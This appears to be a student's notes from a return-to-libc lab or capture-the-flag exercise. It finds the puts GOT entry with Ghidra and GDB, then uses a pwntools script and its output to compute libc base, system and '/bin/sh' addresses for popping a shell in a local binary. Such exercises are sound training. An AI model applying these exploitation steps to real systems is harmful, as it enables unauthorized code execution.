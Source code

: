 ## Finding LibC Base Addr
### Finding Puts:
Puts stub in Ghidra:
![[Pasted image 20240311122306.png]]
`00601018`

And I think this one will be overwritten when puts is actually called?
```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ gdb ./rop -q 
gef➤  break puts
Breakpoint 1 at 0x4004c0
gef➤  r

Breakpoint 1, __GI__IO_puts (str=0x4006d8 "Can you pop shell? I took away all the useful tools..") at ./libio/ioputs.c:35

code
   0x7ffff7e40af9                  nop    DWORD PTR [rax+0x0]
 → 0x7ffff7e40b00 <puts+0>         push   r14
   0x7ffff7e40b02 <puts+2>         push   r13
   0x7ffff7e40b04 <puts+4>         push   r12

gef➤  x/g 0x00601018
0x601018 <puts@got.plt>:        0x7ffff7e40b00
```

Does this mean that `puts` is always at `0x7ffff7e40b00`....boy I hope so...
	Multiple tests have at least ensured that it is indeed the same address when I do the same thing over and over

#### Libc Base Address and System Address:
```python
libcBase = 0
sysAddr = 0
binshAddr = 0
def setLibAddrs():
	p = process('./rop')
	libc = ELF('./libc-2.31.so')

	putsAddr = 0x7ffff7e40b00

	libcBase = putsAddr - libc.symbols['puts']
	print(hex(libcBase))

	sysAddr = libcBase + libc.symbols['system']
	print(hex(sysAddr))

	binshAddr = libcBase + 0x002b45bd
	print(hex(binshAddr))
	return 0

┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ python3 RPP_Pwn_1.py
[+] Starting local process './rop': pid 894915
[*] '/home/kali/Desktop/6-Week/ROP-Pop-Pop/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x7ffff7dbc6e0
0x7ffff7e0e970
```